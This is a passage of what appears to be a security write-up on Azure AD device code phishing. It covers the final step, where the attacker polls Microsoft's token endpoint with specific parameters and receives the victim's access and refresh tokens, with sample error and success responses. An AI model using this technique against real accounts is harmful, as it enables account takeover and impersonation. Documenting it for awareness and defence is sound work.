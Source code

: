 :warning: **At this point the identity of the user is compromised!** :warning:

#### 4. Retrieving the access tokens <a href="#4-retrieving-the-access-tokens" id="4-retrieving-the-access-tokens"></a>

The last step for the attacker is to retrieve the access tokens. After completing the step 2. the attacker starts polling the Azure AD for the authentication status.

Attacker needs to make an http POST to Azure AD token endpoint every 5 seconds:

```
 https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0
```

The request must include the following parameters (code is the device\_code from the step 1)

| Parameter   | Value                                                                                                                                                                                                            |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| client\_id  | d3590ed6-52b3-4102-aeff-aad2292ab01c                                                                                                                                                                             |
| resource    | [https://graph.windows.net](https://graph.windows.net/)                                                                                                                                                          |
| code        | CAQABAAEAAAB2UyzwtQEKR7-rWbgdcBZIGm0IlLxBn23EWIrgw7fkNIKyMdS2xoEg9QAntABbI5ILrinFM2ze8dVKdixlThVWfM8ZPhq9p7uN8tYIuMkfVJ29aUnUBTFsYCmJCsZHkIxtmwdCsIlKpOQij2lJZzphfZX8j0nktDpaHVB0zm-vqATogllBjA-t\_ZM2B0cgcjQgAA |
| grant\_type | urn:ietf:params:oauth:grant-type:device\_code                                                                                                                                                                    |

If the authentication is pending, an http error **400 Bad Request** is returned with the following content:

```json
{
	"error": "authorization_pending",
	"error_description": "AADSTS70016: OAuth 2.0 device flow error. Authorization is pending. Continue polling.\r\nTrace ID: b35f261e-93cd-473b-9cf9-b81f30800600\r\nCorrelation ID: 8ee0ae8a-533f-4742-8334-e9ed939b083d\r\nTimestamp: 2020-10-14 06:06:07Z",
	"error_codes": [70016],
	"timestamp": "2020-10-13 18:06:07Z",
	"trace_id": "b35f261e-93cd-473b-9cf9-b81f30800600",
	"correlation_id": "8ee0ae8a-533f-4742-8334-e9ed939b083d",
	"error_uri": "https://login.microsoftonline.com/error?code=70016"
}
```

After successfull login, we’ll get the following response (tokens truncated):

```json
{
	"token_type": "Bearer",
	"scope": "user_impersonation",
	"expires_in": "7199",
	"ext_expires_in": "7199",
	"expires_on": "1602662787",
	"not_before": "1602655287",
	"resource": "https://graph.windows.net",
	"access_token": "eyJ0eXAi...HQOT1rvUEOEHLeQ",
	"refresh_token": "0.AAAAxkwD...WxPoK0Iq6W",
	"foci": "1",
	"id_token": "eyJ0eXAi...widmVyIjoiMS4wIn0."
}
```
